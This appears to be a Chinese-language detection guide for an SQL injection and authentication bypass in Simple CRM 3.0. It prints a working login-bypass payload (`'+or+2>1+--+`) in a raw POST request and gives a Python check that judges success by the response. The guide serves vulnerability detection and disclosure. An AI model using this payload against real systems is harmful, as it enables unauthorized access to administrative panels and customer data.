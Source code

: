 # Simple CRM 3.0 SQL注入与认证绕过漏洞（simple-crm-sql-injection）检测说明

## 漏洞简介

Simple CRM 3.0 存在SQL注入与认证绕过漏洞，攻击者可通过构造恶意请求绕过登录认证并注入SQL语句，获取敏感信息或控制后台。

## 影响范围

- 产品：Simple CRM
- 影响版本：3.0
- CVE编号：无（社区编号 simple-crm-sql-injection）
- 危害等级：Critical

## 漏洞原理

登录接口未对email参数进行有效过滤，攻击者可通过POST请求注入SQL语句，绕过认证并进入后台。

## 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的POST请求，email参数注入`'+or+2>1+--+`。
2. 服务器端未对参数进行安全处理，直接拼接执行SQL。
3. 数据库执行恶意SQL，认证逻辑被绕过。
4. 响应中出现跳转到home.php的脚本，攻击者确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
POST /scrm/crm/admin HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

email='+or+2>1+--+&password=&login=
```

- email参数注入了`'+or+2>1+--+`，用于绕过认证。

### 预期响应与交互

- 响应体需包含`<script>window.location.href='home.php'</script>`。
- 响应头包含`text/html`。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 200 and "<script>window.location.href='home.php'</script>" in response.text and 'text/html' in response.headers.get('content-type', ''):
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带注入payload的POST请求] --> B[接收HTTP响应]
    B --> C{响应体含home.php跳转脚本?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{Content-Type为text/html且状态码为200?}
    D -- 否 --> F
    D -- 是 --> G[判定存在SQL注入与认证绕过漏洞]
```

## 参考链接

- [Packet Storm - Simple CRM 3.0 SQL Injection](https://packetstormsecurity.com/files/163254/simplecrm30-sql.txt) 